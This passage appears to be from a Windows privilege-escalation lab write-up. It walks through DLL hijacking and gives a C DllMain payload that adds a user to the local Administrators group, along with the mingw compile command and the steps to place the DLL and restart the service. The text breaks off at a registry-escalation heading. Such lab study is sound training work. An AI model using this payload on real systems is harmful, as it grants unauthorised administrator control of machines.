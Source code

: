 - we craft our payload then place it in the `C:\Temp:\hijackme.dll` then start the service , the next time it starts it will find the missed dll and execute it

```powershell
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
if (dwReason == DLL_PROCESS_ATTACH) {
system("cmd.exe /k net localgroup administrators user /add");  //replace command
ExitProcess(0);
}
return TRUE;
}
```

- compile it as dll :

```powershell
x86_64-w64-mingw32-gcc  dll.c -shared -o hijackme.dll
```

- move it and restart the service :

![image](/assets/images/windowsprivescarena/20220425062428.png)

- the user has been added to the local administrators group

## Service Escalation - Registry
